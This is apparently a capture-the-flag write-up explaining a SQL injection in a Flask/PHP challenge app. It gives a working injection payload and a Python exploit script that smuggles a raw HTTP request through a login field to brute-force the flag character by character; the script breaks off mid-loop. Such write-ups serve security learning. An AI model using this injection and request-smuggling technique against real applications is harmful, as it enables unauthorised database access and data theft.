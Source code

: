 In Flask we can send form data in the body of GET request, we just have to add the header `Content-Type: application/x-www-form-urlencoded` in the request.



```python=
def add_user(user,token):
    q = f"INSERT INTO users values ('{user}','{token}')"
    db_query(q)
    return
```
In the add_user() function, there is  SQL injection possible. We can use the user parameter to inject the sqli payload, because token is used to retrieve data from the database. Using the following payload we can add a user with token as the character of the flag 

`a',substr((select*from flag),1,1));--`

This payload is well inside the character limit.

Then we can just use the token to brute the flag character by character, when the right character is found the application will return the same, and `INDEX\n` is returned otherwise. Thus we can leak the flag.

## Exploit

```python=
import requests
import re
import string 

#url = "http://localhost:8000"
url = "http://web.chall.bi0s.in:8000"

S = requests.Session()
S.get(url)
S.post(url+'/login.php',data = {"username": "asdf","submit":"submit"} )
S.get(url+'/index.php?new=http:')
S.post(url+"/index.php",files={"file":('asdf.txt@waf','abc.txt')}, data={"submit":"submit","path":"http:"})

files= S.get(url+"/view.php?fol=http:").text
file = re.findall("<a href='(.*?)'>",files)
file = f"http://{file[0].replace('/view.php?file=http:/','')}"
print(file)

payload = """hello
Host: localhost
X-pro_hacker: Pro-hacker
Token: {}
flag: hello
flag: gimme
Content-Type: application/x-www-form-urlencoded
Content-Length: 42

user=a',substr((select*from flag),{},1));--"""
flag = ""

for i in range(1,10):
    for letter in "1234567890abcdef":
        print("Trying....", letter)
        p = payload.format(letter,str(i))
        data = {"username": p.replace("\n","\r\n"),"submit":"submit"}

        S.post(url+'/login.php',data = data )

        res = S.get(url+f"/view.php?fol=.&file={file}").text

```